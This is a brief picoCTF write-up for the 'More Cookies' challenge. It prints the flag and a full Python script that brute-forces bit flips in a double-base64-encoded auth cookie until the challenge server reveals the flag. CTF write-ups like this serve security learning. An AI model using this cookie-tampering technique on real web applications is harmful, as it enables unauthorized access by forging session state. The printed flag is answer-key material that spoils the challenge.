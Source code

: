 # more cookies
flag: `picoCTF{cO0ki3s_yum_a9a19fa6}`
my approach to the problem:
- what i did was bit-flip attack on a cookie
- the python code makes a get request to the link to get the cookie called `auth_name`
- then the cookie is base64 decoded twice
- then the exploit func flips each byte  to see if the modified version unlocks a response containing the flag
- then a GET request is sent to the server with the modified cookie
- if the response contains `picoCTF{`, then we extract it and print
- ```
    import requests
    import base64
    from tqdm import tqdm
    
    ADDRESS = "http://mercury.picoctf.net:15614/"
    
    s = requests.Session()
    s.get(ADDRESS)
    cookie = s.cookies["auth_name"]
    
    decoded_cookie = base64.b64decode(cookie)
    raw_cookie = base64.b64decode(decoded_cookie)
    
    
    def exploit():
    
        for position_idx in tqdm(range(0, len(raw_cookie))):
    
            for bit_idx in range(0, 8):
                bitflip_guess = (
                        raw_cookie[0:position_idx]
                        + ((raw_cookie[position_idx] ^ (1 << bit_idx)).to_bytes(1, "big"))
                        + raw_cookie[position_idx + 1 :]
                )
    
                guess = base64.b64encode(base64.b64encode(bitflip_guess)).decode()
    
    
                r = requests.get(ADDRESS, cookies={"auth_name": guess})
                if "picoCTF{" in r.text:
                    print(r.text.split("<code>")[1].split("</code>")[0])
                    return
    
    
    exploit()
  ```